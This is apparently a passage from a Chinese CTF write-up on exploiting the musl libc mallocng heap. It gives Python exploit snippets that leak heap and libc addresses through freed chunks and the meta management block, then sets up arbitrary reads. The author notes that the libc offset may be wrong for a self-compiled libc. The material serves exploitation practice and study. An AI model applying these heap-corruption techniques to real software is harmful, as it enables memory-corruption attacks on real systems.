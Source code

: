 ### 漏洞利用

#### 泄露

要想泄露地址的话，首先要和残留有libc或者对地址的块物理相邻，因为本题的特点，管理块里是有堆块地址的，另外又根据musl的特性，这两个地址实际上在 libc 附近（因为就是libc的bss），所以泄露出堆地址也就泄露出了libc地址

``` python
# 先把这个大小 chunk 全部申请,不然不会启用 free 掉的 chunk
for i in range(15):
add(i,0xc)

# 把开头的 chunk free 掉
# 此时 avail_mask 为 0，free_mask 中有两个 chunk
delete(0)
```

此时 freed_mask 为 3 也就是 11(b)，这表示第 0 号和第 1 号 chunk 被 free

![image-20220819153141749](musl%E5%85%A5%E9%97%A8/image-20220819153141749.png)

看到下面的index位已经变成两个 0xff

![image-20220819153406954](musl%E5%85%A5%E9%97%A8/image-20220819153406954.png)

```python
# 先把这个大小 chunk 全部申请,不然不会启用 free 掉的 chunk
for i in range(15):
    add(i,0xc)

# 把开头的 chunk free 掉
# 此时 avail_mask 为 0，free_mask 中有两个 chunk
delete(0)

# 再申请回来，只需要把 0x4 字节的 chunk 头填掉就可以泄露，注意此时下一个 chunk 的头已经烂掉了
add(0 ,0 , 'a'*0xf + '\n')
show(0)

# 貌似这个偏移有点问题，因为是自己编译的 libc 
libc.address = l64() - 0xa6cf0
__malloc_context = libc.sym["__malloc_context"]

# 接下来可以直接写管理块的 data 域实现任意地址读
delete(2)
```